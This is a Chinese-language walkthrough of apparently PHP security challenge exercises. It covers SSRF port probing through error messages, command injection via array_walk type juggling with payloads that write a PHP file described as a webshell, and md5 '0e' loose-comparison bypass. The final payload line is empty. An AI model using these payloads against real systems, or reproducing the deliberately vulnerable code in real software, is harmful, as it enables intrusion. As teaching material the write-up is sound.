Day20 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 <?php if (!isset ($_GET) || $_GET == false ){ show_source(__FILE__ ); exit ; } set_error_handler(function ($no, $str, $file, $line) throw new ErrorException($str, 0 , $no, $file, $line); }, E_ALL); class ImageLoader public function getResult ($uri) { if (!filter_var($uri, FILTER_VALIDATE_URL)) { return '<p>Please enter valid uri</p>' ; } try { $image = file_get_contents($uri); $path = "./images/" . uniqid() . '.jpg' ; file_put_contents($path, $image); if (mime_content_type($path) !== 'image/jpeg' ) { unlink($path); return '<p>Only .jpg files allowed</p>' ; } } catch (Exception $e) { return '<p>There was an error: ' . $e->getMessage() . '</p>' ; } return '<img src="' . $path . '" width="100"/>' ; } } echo (new ImageLoader())->getResult($_GET['img' ]);
这关考察的是利用file_get_contents函数通过set_error_handler产生报错信息来产生SSRF，我们可以通过SSRF来检测内部服务是否开启，例如输入payload为：
1 ?img=http://127.0.0.1:22
如果响应结果为：There was an error: file_get_contents(http://127.0.0.1:22): failed to open stream: HTTP request failed! SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2则说明存在SSH服务
如果检测一个不存在端口?img=http://127.0.0.1:30，则响应There was an error: file_get_contents(http://127.0.0.1:30): failed to open stream: Connection refused，说明服务不存在
Day21 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 <?php declare (strict_types=1 );class ParamExtractor private $validIndices = []; private function indices ($input) $validate = function (int $value, $key) if ($value > 0 ) { $this ->validIndices[] = $key; } }; try { array_walk($input, $validate, 0 ); } catch (TypeError $error) { echo "Only numbers are allowed as input" ; } return $this ->validIndices; } public function getCommand ($parameters) $indices = $this ->indices($parameters); $params = []; foreach ($indices as $index) { $params[] = $parameters[$index]; } return implode($params, ' ' ); } } $cmd = (new ParamExtractor())->getCommand($_GET['p' ]); system('resizeImg image.png ' . $cmd); show_source(__FILE__ );
这道题需要运行在php7 的环境，开头的declare(strict_types=1);就是php7的一种新引入方式，作用是在函数调用时会对参数进行类型检查，举个例子：
1 2 3 4 5 6 7 8 declare (strict_types=1 );function addnum (int $a,int $b) return $a + $b; } echo addnum(1 ,2 ); echo addnum('1' ,'2' );
所以这就保证了最后通过$validate函数的$value都是数字且都大于0，但是这题漏洞在于array_walk这个函数，它不会对传入的参数做类型检查，也就是说它还是会按照php本身弱类型语言的特性对传入的参数做类型转化
例子如下：
1 2 3 4 5 6 7 8 declare (strict_types=1 );function addnum (int &$value) $value = $value+1 ; } $input = array ('1a' ,'2b' ); array_walk($input,addnum); var_dump($input);
所以，我们很容易就能够进行任意命令执行，payload如下：
1 2 ?p[1]=1;touch info.php ?p[1]=1;echo '<?php phpinfo(); ?>' >> info.php
这样就能向当前目录写入webshell
Day22 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 <?php show_source(__FILE__ ); if (isset ($_POST['password' ])) { setcookie('hash' , md5($_POST['password' ])); header("Refresh: 0" ); exit ; } $password = '0e836584205638841937695747769655' ; if (!isset ($_COOKIE['hash' ])) { echo '<form><input type="password" name="password" />' . '<input type="submit" value="Login" ></form >' ; exit ; } elseif (md5($_COOKIE['hash' ]) == $password) { echo 'Login succeeded' ; } else { echo 'Login failed' ; }
这题考察的就是PHP会将0e开头的值以科学计数法进行处理，例如0e123 == 0e321
这里cookie字段我们是可控的，所以我们只需要找到一个经过md5加密后开头是0e的值即可
payload：